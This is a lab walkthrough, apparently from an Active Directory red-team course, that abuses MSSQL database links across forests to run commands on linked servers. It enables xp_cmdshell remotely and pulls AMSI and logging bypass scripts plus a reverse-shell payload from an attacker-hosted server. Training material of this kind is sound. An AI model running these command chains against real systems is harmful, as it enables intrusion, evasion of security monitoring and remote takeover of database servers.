# Hands-on 26: Cross Forest Attacks - MSSQL Servers

- [Hands-on 26: Cross Forest Attacks - MSSQL Servers](#hands-on-26-cross-forest-attacks---mssql-servers)
  - [Tasks](#tasks)
  - [Enumeration](#enumeration)
  - [Reverse shell from DB-SQLPROD](#reverse-shell-from-db-sqlprod)
  - [Reverse shell from DB-SQLSRV](#reverse-shell-from-db-sqlsrv)

---

## Tasks

Get a reverse shell on a `db-sqlsrv` in `db.local` forest by abusing database links from `us-mssql`.

<br/>

---

## Enumeration

Import `PowerUpSQL.ps1` using InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

  


<br/>

Then enumerate MSSQL instances:

```
Get-SQLInstanceDomain
```

  

- MSSQL instance: `us-mssql.us.techcorp.local`

<br/>

Then check if we can access `us-mssql`:

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

  

- The current user can access `us-mssql`

<br/>

Enumerate more information about the MSSQL service:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

  

<br/>

Look for Database Link of `us-mssql`:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

  

- `us-mssql` has remote link on `192.168.23.25`

<br/>

Try to crawl the database link:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

  

- We can execute command on `db-sqlsrv` from US-MSSQL -> 192.168.23.25 -> DB-SQLSRV

<br/>

Try to remotely execute command on the SQL servers:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami && hostname'''
```

  

- Command executed on **DB-SQLPROD** (`192.168.23.25`)
- However, the SQL user on **DB-SQLSRV** is `sa` - it is supposed to be able to execute command. Likely `xp_cmdshell` is not enabled.

<br/>

---

## Reverse shell from DB-SQLPROD

Locally serve tools:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

Launch a powercat listener:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\powercat.ps1; powercat -l -v -p 443 -t 1000
```

Use `Get-SQLServerLinkCrawl` to get a reverse shell from **DB-SQLPROD**:

- `sbloggingbypass.txt` bypasses PowerShell logging
- `amsibypass.txt` bypasses AMSI
- `Invoke-POwerShellTcpEx.ps1`

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.64/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://192.168.100.64/amsibypass.txt); iex (iwr -UseBasicParsing http://192.168.100.64/Invoke-PowerShellTcpEx.ps1)"'''
```

  

<br/>

Enable `xp_cmdshell` on `db-sqlsrv` via `db-sqlprod` using `Invoke-SqlCmd`:

```
Invoke-SqlCmd -Query "execute ('sp_configure ''show advanced options'', 1; reconfigure;') AT ""db-sqlsrv"""
```

```
Invoke-SqlCmd -Query "execute ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT ""db-sqlsrv"""
```

  

<br/>

Then on the local machine, try to use `Get-SQLServerLinkCrawl` to remotely run commands using `xp_cmdshell` again:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami && hostname'''
```

  

<br/>

---

## Reverse shell from DB-SQLSRV

Use **heidisql.exe** to connect to `us-mssql`:

  

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcpEx.ps1'''')"'')');
```

  

Note:
`select @@version;` has to be there or otherwise it fails

  

---